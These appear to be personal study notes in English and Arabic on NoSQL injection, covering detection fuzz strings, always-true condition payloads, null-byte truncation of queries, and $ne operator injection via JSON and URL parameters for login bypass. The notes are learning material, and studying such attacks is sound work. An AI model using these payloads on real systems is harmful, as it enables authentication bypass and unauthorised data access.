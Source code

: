 ```jsx
Detection test

'"`{
;$Foo}
$Foo \xYZ

ecample.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

if the response change is a good indecator 

other exmaples
 

```
this.category == '''
this.category == '\''

```

### **conditions test True and False**

```
'||'1'=='1
this.category == 'fizzy'||'1'=='1'

```

إضافة حرف null (\u0000) لتعطيل الشروط الإضافية:

```
this.category == 'fizzy' && this.released == 1

example.com/product/lookup?category=fizzy'%00
this.category == 'fizzy'\u0000' && this.released == 1

```

(NoSQL Operator Injection)

تسمح بتحديد شروط خاصة على البيانات التي يجب استرجاعها

- **`$where`**: يطابق المستندات التي تحقق تعبير JavaScript.
- **`$ne`**: يطابق كل القيم التي لا تساوي قيمة معينة.
- **`$in`**: يطابق جميع القيم المحددة في مصفوفة.
- **`$regex`**: يحدد المستندات حيث القيم تطابق تعبيرًا منتظمًا (Regular Expression).

nested objects

```json
{"username":"wiener"}
{"username":{"$ne":"invalid"}}
اي اسم لايساوي invalid

```

if inject in URL :

```makefile
username=wiener
username[$ne]=invalid
```

إذا لم يعمل ذلك، يمكنك تجربة التالي:

- تحويل طريقة الطلب من **GET** إلى **POST**.
- تغيير ترويسة `Content-Type` إلى `application/json`.
- إضافة JSON إلى نص الرسالة.
- حقن المشغلات في JSON.

EX:
